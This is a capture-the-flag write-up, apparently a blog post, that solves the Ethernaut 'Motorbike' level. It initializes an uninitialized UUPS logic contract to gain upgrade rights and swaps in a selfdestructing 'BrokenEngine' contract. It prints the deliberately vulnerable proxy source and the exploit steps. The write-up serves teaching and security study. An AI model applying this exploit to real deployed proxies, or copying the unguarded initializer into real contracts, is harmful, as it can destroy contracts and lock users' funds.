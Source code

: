 ```yaml
---
layout: post
title:  Ethernaut challenges writeup Part VII (Challenge 25).
excerpt_separator: <!--more-->
category: DeFi
---
```


# Motorbike Walkthrough

## Introduction

This challenge recreates in an simpler mode a [vulnerability found in September 2021 in the UUPS Proxy contract library](https://forum.openzeppelin.com/t/uupsupgradeable-vulnerability-post-mortem/15680). The idea is that we have to find a way to execute the `selfdestruct()` operation in the `implementation` or `logic` contract.

<!--more-->

I won't explain here how this Proxy pattern work, you can check the "Further Reading" section for more information. The basic idea to exploit this level is to know that if the logic contract is not initialized, this means that its `initialize()` method was not executed, a malicious attacker can initialize it. This shouldn't be a major issue as the implementation contract's storage doesn't matter. However in the vast majority of cases additional logic is included when the logic contract is initialized, commonly granting some kind of special privileges to the address that initialized it, including control to perform upgrades. In this specific case `initialize` executes the following action: `upgrader = msg.sender;` which will allow the user to execute `upgradeToAndCall`.

Having access to perform upgrades a malicious actor could set the address of the `logic` contract to point to a contract that selfs destruct, rendering the Proxy contract unusable (remember that in the UUPS pattern the upgrade logic resides on the logic contract side). In the real scenario, this malicious contract had to bypass a small rollback check that was not designed for security purposes and hence was [easily bypasseable](https://geeksg.medium.com/my-journey-to-disclosing-a-vulnerability-that-can-lock-up-millions-in-ethereum-dcb5754ad9bc).

To solve this level I performed the following actions:

1. I found the address of the logic contract. To do this I executed:

```
await  web3.eth.getStorageAt(instance,"0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc")

-> 0x000000000000000000000000957d470866f5109255936bd66dab27869e35316c
```
This reads the standard slot defined to store the [address of the contract holding the logic](https://eips.ethereum.org/EIPS/eip-1967)

2. I used Remix and deployed both contracts with their respective addresses.
3. I executed `initialize` method on the `Engine` Contract. This set my address as `upgrader`.
4. Being listed as `upgrader` I was able to call `upgradeToAndCall` and set the address of the new logic to the contract shown below:

```
contract BrokenEngine {
    fallback() external payable {
        selfdestruct(address(0));
    }
}
```

5. I submitted the instance and the `fallback()` was executed, rendering the Proxy contract unusable.

## Source Code

Challenge:

```
// SPDX-License-Identifier: MIT

pragma solidity <0.7.0;

import "https://raw.githubusercontent.com/OpenZeppelin/openzeppelin-contracts/087d314daf9c7d8205e9eeaade287d853bb3350d/contracts/utils/Address.sol";
import "https://raw.githubusercontent.com/OpenZeppelin/openzeppelin-upgrades/master/packages/core/contracts/Initializable.sol";

contract Motorbike {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    
    struct AddressSlot {
        address value;
    }
    
    // Initializes the upgradeable proxy with an initial implementation specified by `_logic`.
    constructor(address _logic) public {
        require(Address.isContract(_logic), "ERC1967: new implementation is not a contract");
        _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;
        (bool success,) = _logic.delegatecall(
            abi.encodeWithSignature("initialize()")
        );
        require(success, "Call failed");
    }

    // Delegates the current call to `implementation`.
    function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }

    // Fallback function that delegates calls to the address returned by `_implementation()`. 
    // Will run if no other function in the contract matches the call data
    fallback () external payable virtual {
        _delegate(_getAddressSlot(_IMPLEMENTATION_SLOT).value);
    }

    // Returns an `AddressSlot` with member `value` located at `slot`.
    function _getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
        assembly {
            r_slot := slot
        }
    }
}

contract Engine is Initializable {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    // Upgrade the implementation of the proxy to `newImplementation`
    // subsequently execute the function call
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }

    // Restrict to upgrader role
    function _authorizeUpgrade() internal view {
        require(msg.sender == upgrader, "Can't upgrade");
    }

    // Perform implementation upgrade with security checks for UUPS proxies, and additional setup call.
    function _upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) internal {
        // Initial upgrade and setup call
        _setImplementation(newImplementation);
        if (data.length > 0) {
            (bool success,) = newImplementation.delegatecall(data);
            require(success, "Call failed");
        }
    }
    
    // Stores a new address in the EIP1967 implementation slot.
    function _setImplementation(address newImplementation) private {
        require(Address.isContract(newImplementation), "ERC1967: new implementation is not a contract");
        
        AddressSlot storage r;
        assembly {
            r_slot := _IMPLEMENTATION_SLOT
        }
        r.value = newImplementation;
    }
}
```

Solution:

```
contract BrokenEngine {
    fallback() external payable {
        selfdestruct(address(0));
    }
}
```

## Further Reading

- UUPS Proxies: Tutorial - https://forum.openzeppelin.com/t/uups-proxies-tutorial-solidity-javascript/7786
- Proxies - https://docs.openzeppelin.com/contracts/4.x/api/proxy#ERC1967Upgrade-_upgradeTo-address-
- Writing upgradable contracts, potential unsafe operations - https://docs.openzeppelin.com/upgrades-plugins/1.x/writing-upgradeable#potentially-unsafe-operations
- My journey to disclosing a vulnerability that can lock up millions in Ethereum - https://geeksg.medium.com/my-journey-to-disclosing-a-vulnerability-that-can-lock-up-millions-in-ethereum-dcb5754ad9bc
- EIP-1967: Standard Proxy Storage Slots - https://eips.ethereum.org/EIPS/eip-1967
